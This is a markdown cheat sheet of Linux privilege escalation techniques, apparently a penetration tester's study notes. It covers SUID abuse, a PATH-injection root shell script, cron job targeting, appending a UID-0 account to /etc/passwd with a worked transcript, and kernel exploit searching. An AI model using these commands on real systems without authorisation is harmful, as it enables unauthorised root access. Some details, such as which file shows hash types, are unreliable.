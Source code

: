 # Linux Privilege Escalation

- <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- <https://book.hacktricks.xyz/linux-hardening/privilege-escalation>



`su - root`




`sudo -l`
list the privileges for the invoking user (or the user specified by the -U option)

`find / -type f -perm -u=s 2>/dev/null`
The SUID bit is a special permission in Unix/Linux systems that allows a file to be executed with the permissions of the file's owner rather than the user who executed the file.


`bash -p`
The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.




- Path injection or relative path exploit
```bash
# If there is an unknown SUID invoking another binary 
# that does not use absolute path
# And you can manipulate the PATH variable
# Create that binary like
echo "#!/bin/bash" > /tmp/THAT_BINARY
echo "/bin/bash -ip" >> /tmp/THAT_BINARY
export PATH=/tmp:$PATH
# Execute the suid binary and you will get root
```








## Exploiting Misconfigured Cron Jobs

```
# show cronjob set for current user
crontab -l

# identify wheter a not privileged user string is in any script
cd /
grep -rnw /usr -r "/home/[NOT PRIVELIGED USER]/[ROOT OWNED BIN]"
```


Linux implements task scheduling through a utility called Cron.

Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

An application, or script that has been configured to be run repeatedly with `cron` is known as a "cron job".

`cron` can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.

The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.



Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the `root` user.

This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.

System-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.



















## Linux Password Hashes

Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.

All of the information for all accounts on Linux is stored in the passwd file located in: `/etc/passwd`

We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.

All the encrypted passwords for the users are stored in the shadow file. it can be found in the following directory: `/etc/shadow`

The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.



The `passwd` file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

Value	Hashing Algorithm
$1		MD5
$2		Blowfish
$5		SHA-256
$6		SHA-512








For backwards compatibility, if a password hash is present in the second column of an `/etc/passwd` user record, it is considered valid for authentication and it takes precedence over the respective entry in `/etc/shadow`, if available. This means that if we can write into `/etc/passwd`, we can effectively set an arbitrary password for any account.



Example:
Add another superuser (root2) and the corresponding password hash to `/etc/passwd`. 
We will first generate the password hash using the `openssl` tool and the `passwd` argument.
By default, if no other option is specified, `openssl` will generate a hash using the `crypt` algorithm, a supported hashing mechanism for Linux authentication. The output of the OpenSSL `passwd` command may vary depending on the system executing it. On older systems, it may default to the DES algorithm, while on some newer systems it could output the password in MD5 format.

```
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```
















## Exploiting SUID Binaries





This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors:

- Owner of the SUID binary – Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the `root` user or other privileged users.

- Access permissions – We will require executable permissions in order to execute the SUID binary.







## Linux Capabilities

Capabilities are extra attributes that can be applied to processes, binaries, and services to assign specific privileges normally reserved for administrative operations, such as traffic capturing or adding kernel modules. Similarly to setuid binaries, if misconfigured, these capabilities could allow an attacker to elevate their privileges to root.









## Linux Kernel Exploitation

Kernel exploits on Linux will typically target vulnerabilities In the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.

Privilege escalation on Linux systems will typically follow the following methodology:
- Identifying kernel vulnerabilities
- Downloading, compiling and transferring kernel exploits onto the target system.


Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.
- GitHub: https://github.com/mzet-/linux-exploit-suggester







Example:
```
joe@ubuntu-privesc:~$ cat /etc/issue
Ubuntu 16.04.4 LTS \n \l

joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic

joe@ubuntu-privesc:~$ arch 
x86_64


searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```

























## MSF

```
meterpreter > getpriv
meterpreter > getsystem

```


/post/multi/recon/local_exploit_suggester


